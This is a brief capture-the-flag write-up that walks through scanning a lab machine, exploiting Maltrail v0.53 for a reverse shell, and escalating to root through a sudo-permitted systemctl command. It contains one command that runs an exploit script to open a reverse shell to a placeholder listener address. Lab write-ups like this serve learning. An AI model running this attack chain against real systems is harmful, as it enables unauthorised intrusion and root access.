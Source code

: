 # Writeup
Let scan it first, we can see there are some open ports here.
![](./img/scan.png)

Access to the website, go to my basket link. Modify `settings`
![](./img/web.png)

Do some research about `Maltrail (v0.53)`, we have payload file.
![](./img/search.png)

Using `Netcat` and `python3 exploit.py 1.2.3.4 1337 http://example.com`, we can now get a reverse shell.
![](./img/flag.png)

`sudo -l` to check the list of commands that the current user can execute with elevated privileges using sudo.
![](./img/sudo.png)

`(ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service` We can do this command to escalate privilege by `sudo /usr/bin/systemctl status trail.service`

![](./img/root.png)
